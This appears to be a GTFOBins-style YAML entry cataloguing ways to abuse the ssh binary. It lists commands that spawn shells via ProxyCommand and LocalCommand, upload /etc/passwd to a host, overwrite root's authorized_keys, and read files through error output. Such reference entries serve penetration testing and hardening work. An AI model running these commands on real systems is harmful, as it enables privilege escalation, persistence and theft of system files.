 ```yaml
---
functions:
  shell:
    - description: Spawn interactive shell on client. Does not require a successful connection.
      code: |
        ssh -o ProxyCommand=';sh 0<&2 1>&2' host
    - description: Spawn interactive shell on client. Requires a successful connection towards `host`.
      code: |
        ssh -o PermitLocalCommand=yes -o LocalCommand=/bin/sh host
  file-upload:
    - description: Sends a local file (`/etc/passwd`) to a remote SSH server and saves it in a location (`/tmp/out`).
      code: |
        ssh host "cat /tmp/out" < /etc/passwd
  file-download:
    - description: Retrieves a remote file from an SSH server (`/tmp/infile`) and saves it to a local destination (`/root/.ssh/authorized_keys`).
      code: |
        ssh host "cat /tmp/infile" > /root/.ssh/authorized_keys
  file-read:
    - description: Reads a file and outputs it in an error message.
      code: |
        ssh -F /etc/passwd host
  command:
    - description: Does not require a successful connection.
      code: |
        ssh -o ProxyCommand=';uname -a 1>&2' host
---
```

